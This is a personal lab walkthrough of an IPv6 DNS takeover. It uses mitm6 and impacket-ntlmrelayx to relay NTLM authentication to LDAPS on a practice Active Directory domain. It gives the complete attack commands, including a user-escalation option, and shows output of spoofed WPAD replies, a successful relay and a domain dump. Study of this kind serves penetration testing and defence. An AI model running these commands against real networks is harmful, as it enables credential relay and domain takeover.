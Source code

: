 
If mitm6 not yet installed
1. cd /opt/mitm6
2. sudo pip3 install .


How to initiate the attack?

1. Prepare the command `sudo mitm6 -d marvel.local`. Do not yet execute it as we will run ntlmrelayx first.
2. Execute `ntlmrelayx 6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -escalate-user pparker` or `impacket-ntlmrelayx -6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -l lootme` - Sets up the relay server and WPAD host, ready to intercept and relay NTLM authentication.

```
└─$ impacket-ntlmrelayx -6 -t ldaps://192.168.64.250 -wh fakewpad.marvel.local -l lootme
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Serving PAC file to client fe80::fde3:206f:be61:b3b7
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, attacking target ldaps://192.168.64.250
[*] HTTPD(80): Authenticating against ldaps://192.168.64.250 as MARVEL/PUNISHER$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Connection from fe80::fde3:206f:be61:b3b7 controlled, but there are no more targets left!
[*] HTTPD(80): Client requested path: http://go.microsoft.com/fwlink/?linkid=252669&clcid=0x409

```
3. Now execute the `sudo mitm6 -d marvel.local`

```
┌──(kali㉿kali)-[~]
└─$ sudo mitm6 -d marvel.local                                                          
[sudo] password for kali: 
Starting mitm6 using the following configuration:
Primary adapter: eth0 [ea:f0:2f:00:11:3a]
IPv4 address: 192.168.64.4
IPv6 address: fe80::e8f0:2fff:fe00:113a
DNS local search domain: marvel.local
DNS allowlist: marvel.local
IPv6 address fe80::913:1 is now assigned to mac=8e:27:0f:ff:34:d1 host=SPIDERMAN.MARVEL.local. ipv4=
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Sent spoofed reply for wpad.MARVEL.local. to fe80::8c06:f13e:9fe4:6de1
Renew reply sent to fe80::913:1
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.MARVEL.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for wpad.marvel.local. to fe80::fde3:206f:be61:b3b7
IPv6 address fe80::192:168:64:220 is now assigned to mac=4e:4f:0d:0b:16:40 host=PUNISHER.MARVEL.local. ipv4=192.168.64.220
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7
Sent spoofed reply for fakewpad.marvel.local. to fe80::fde3:206f:be61:b3b7


```

4. After that,  a loot me file was saved in the /home/kali directory

Capturing, in the wireshark, here is the step by step

1. IPV6 router advertisement - The attacker/kali impersonates will introduce itself as an  IPV6 router
![[Pasted image 20240716203249.png]]
2. DHCPv6 Activity - devices perform DHCPv6 solicitation in response to the new router advertisement. The Kali then offers link local and global address to the domain computer
![[Pasted image 20240716205537.png]]

3. After obtaining DHCPv6 address, it then query for WPAD(Web proxy auto discovery) 